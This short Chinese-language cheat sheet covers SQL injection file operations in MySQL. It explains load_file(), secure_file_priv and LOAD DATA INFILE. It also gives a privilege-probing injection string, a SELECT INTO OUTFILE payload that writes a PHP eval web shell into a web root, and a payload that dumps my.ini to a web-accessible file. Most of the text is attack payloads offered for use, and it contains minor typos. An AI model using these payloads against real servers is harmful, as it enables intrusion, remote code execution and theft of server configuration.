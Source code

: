# load_file()

使用条件：

A、必须有权限读取并且文件必须完全可读   
`and (select count(*) from mysql.user)>0/*` 如果结果返回正常,说明具有读写权限。  
` and (select count(*) from mysql.user)>0/*` 返回错误，应该是管理员给数据库帐户降权

B、欲读取文件必须在服务器上 

C、必须指定文件完整的路径 

D、欲读取文件必须小于 max_allowed_packet 

**使用注意:**
1.  注意数据库用户权限
2.  注意文件的路径，需要绝对物理路径
3.  myslq.ini 中的  
     -    ure_file_priv的值为null ，表示限制mysqld 不允许导入|导出  
     -   当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下  
     -   当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

#   文件导入到数据库
`load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'`  
-   将/tmp/t0.txt导入到t0表中，character set gbk是字符集设置为gbk，fields terminated by是每一项数据之间的分隔符，lines terminated by 是行的结尾符。  
-   当错误代码是2的时候的时候，文件不存在，错误代码为13的时候是没有权限，可以考虑/tmp等文件夹。

#   导入到文件
`SELECT.....INTO OUTFILE 'file_name'`  
`Select version() into outfile "c:\\phpnow\\htdocs\\test.php"`  
`Select  <?php @eval($_post["mima"])?>  into outfile "c:\\phpnow\\htdocs\\test.php"`  
`select load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini')into outfile 'c:\\wamp\\www\\test.php'`
